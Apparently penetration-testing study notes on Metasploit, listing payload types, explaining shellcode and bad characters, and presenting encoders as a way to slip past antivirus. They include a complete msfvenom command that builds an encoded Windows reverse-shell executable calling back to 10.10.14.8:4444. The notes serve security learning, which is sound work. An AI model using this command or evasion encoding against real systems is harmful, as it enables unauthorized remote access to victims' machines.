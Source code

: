 # Payloads
##### Shows compatible payloads with the selected module. If run before selecting any module, shows all payloads. 
```msfconsole
show payloads
```
##### Sets the payload
```msfconsole
set payload <payload name>
```
##### MSF - Searching for Specific Payload
```msfconsole
grep meterpreter show payloads
```
##### Payload Types

| Payload                       | Description                                                        |
| --------------------------------- | ---------------------------------------------------------------------- |
| `generic/custom`                  | Generic listener, multi-use                                            |
| `generic/shell_bind_tcp`          | Generic listener, multi-use, normal shell, TCP connection binding      |
| `generic/shell_reverse_tcp`       | Generic listener, multi-use, normal shell, reverse TCP connection      |
| `windows/x64/exec`                | Executes an arbitrary command (Windows x64)                            |
| `windows/x64/loadlibrary`         | Loads an arbitrary x64 library path                                    |
| `windows/x64/messagebox`          | Spawns a dialog via MessageBox using a customizable title, text & icon |
| `windows/x64/shell_reverse_tcp`   | Normal shell, single payload, reverse TCP connection                   |
| `windows/x64/shell/reverse_tcp`   | Normal shell, stager + stage, reverse TCP connection                   |
| `windows/x64/shell/bind_ipv6_tcp` | Normal shell, stager + stage, IPv6 Bind TCP stager                     |
| `windows/x64/meterpreter/$`       | Meterpreter payload + varieties above                                  |
| `windows/x64/powershell/$`        | Interactive PowerShell sessions + varieties above                      |
| `windows/x64/vncinject/$`         | VNC Server (Reflective Injection) + varieties above                    |
# Encoders

### 1. What are Encoders (in Metasploit)?

Encoders are transformations applied to payloads to:

- Bypass antivirus or intrusion detection systems (IDS)
- Avoid bad characters that could break the shellcode (like null bytes)   
- Make payloads compatible with certain architectures or filters

Think of it like wrapping a dangerous file in a new disguise, so it slips past a security scanner.  
But note: modern AVs are smart - so encoders alone don’t guarantee evasion anymore.
### 2. What are: Bad Characters, Opcodes, and Shellcode?

#### Shellcode

- Shellcode is the actual payload - a small piece of machine code (binary) that runs a shell or performs a malicious action (like reverse shell, meterpreter, etc.)
- It's what gets injected or executed on the target.
#### Opcodes

- "Opcode" = operation code.   
- It’s the machine-level instruction (like `mov`, `jmp`, `add`) that a CPU understands.
- Example: `0x90` = NOP (No Operation)
Shellcode is made up of opcodes. So `"\x31\xc0\x50\x68..."` = machine instructions = shellcode.
#### Bad Characters
- These are bytes that break or terminate the shellcode unexpectedly.
- Common ones: `\x00` (null byte), `\x0a` (newline), `\x0d` (carriage return)

Why are they bad?  
If a vulnerable app is reading the payload as a string and hits `\x00`, it thinks the string is over - so your shellcode gets cut off.
### 3. msfvenom Syntax to Build Encoded Payloads

Here’s the basic msfvenom command:

```bash
msfvenom -p <payload> LHOST=<IP> LPORT=<PORT> -e <encoder> -a <arch> --platform <os> -b "<badchars>" -f <format> -o <outputfile>
```

#### Example: Windows reverse shell with Shikata encoder

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4444 \
-e x86/shikata_ga_nai -i 5 -a x86 --platform windows -b "\x00\x0a" \
-f exe -o shell.exe
```

#### Flags Explained:

|Flag|Meaning|
|---|---|
|`-p`|The payload you want (e.g., reverse shell)|
|`LHOST` / `LPORT`|Attacker's IP and port|
|`-e`|Encoder to use (e.g., `x86/shikata_ga_nai`)|
|`-i`|Number of encoding iterations|
|`-a`|Architecture (`x86`, `x64`)|
|`--platform`|OS platform (`windows`, `linux`, etc.)|
|`-b`|Bad characters to avoid|
|`-f`|Output format (`exe`, `elf`, `raw`, etc.)|
|`-o`|Output file path|
# Tags
> #Pre-Exploitation #Shells #MSFConsole
